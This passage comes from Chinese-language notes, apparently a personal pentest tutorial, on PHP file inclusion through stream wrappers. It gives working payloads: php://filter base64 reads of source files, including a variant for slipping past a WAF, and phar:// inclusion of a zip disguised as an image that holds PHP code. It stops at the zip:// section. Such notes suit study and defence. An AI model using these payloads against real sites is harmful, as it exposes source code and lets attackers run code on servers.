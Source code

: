 ![image-20200302171940647](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302171940647.png)

##### 2. php://filter

###### 利用条件：无

```
通过指定末尾的文件，可以读取经过base64编码后的文件源码，之后再base64解码一下。虽然不能直接获取shell等，但能读取敏感文件危害也是挺大的。
```

###### 姿势

```php
1.php?file=php://filter/read=convert.base64-encode/resource=789.php
```

![image-20200302173032776](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302173032776.png)

###### 其他姿势

```php
1.php?file=php://filter/convert.base64-encode/resource=789.php
```

效果和上面一样，少了read关键字。在绕过waf时也许有用

##### 3. phar://

###### 利用条件

```
1. php版本大于等于 5.3.0
```

###### 姿势

在当前目录瞎有个123.txt的文件，内容为<?php phpinfo()?>，打包成压缩包123.zip，这里可以修改后缀为：jpg、png等

![image-20200302174327863](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302174327863.png)

指定相对路径

```php
1.php?file=phar://123.zip/123.txt
```

或者绝对路径

```php
1.php?file=phar://D:/PHPTutorial/WWW/wenjianbaohan/123.zip/123.txt
```

![image-20200302174727084](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302174727084.png)

##### 4. zip://

###### 利用条件

```
1. php版本大于等于5.3.0
```
